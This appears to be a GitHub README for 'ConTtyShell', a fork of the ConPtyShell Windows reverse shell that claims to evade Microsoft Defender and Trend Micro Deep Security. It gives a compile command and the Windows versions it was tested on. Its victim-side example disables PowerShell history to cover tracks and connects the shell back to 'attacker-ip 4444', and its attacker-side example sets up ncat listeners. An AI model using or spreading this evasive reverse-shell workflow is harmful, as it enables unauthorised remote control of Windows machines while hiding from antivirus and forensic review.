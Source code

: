 # ConTtyShell
ConPtyShell Fork that Evades:
* Microsoft Defender (as of 14/06/2025)
* Trend Micro Deep Security (as of 03/12/2024)

**Original:**

https://github.com/antonioCoco/ConPtyShell

**Compile with:**

`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /platform:x64 -nologo -debug -out:ConTtyShell.exe .\ConTtyShell.cs`

**Tested on:**
* Windows Server 2016 Datacenter 10.0 x64 Build 14393
* Windows Server 2019 x64 Build 1809
* Windows 10 22H2 x64
* Windows 11 22H2 x64


**Victim side usage example:**

```
Set-PSReadlineOption -HistorySaveStyle SaveNothing
.\ConTtyShell.exe attacker-ip 4444
```

**Attacker side usage example:**

```
rlwrap ncat -lvnp 4444

Or

stty raw -echo; (stty size; cat) | ncat -lvnp 6666
```
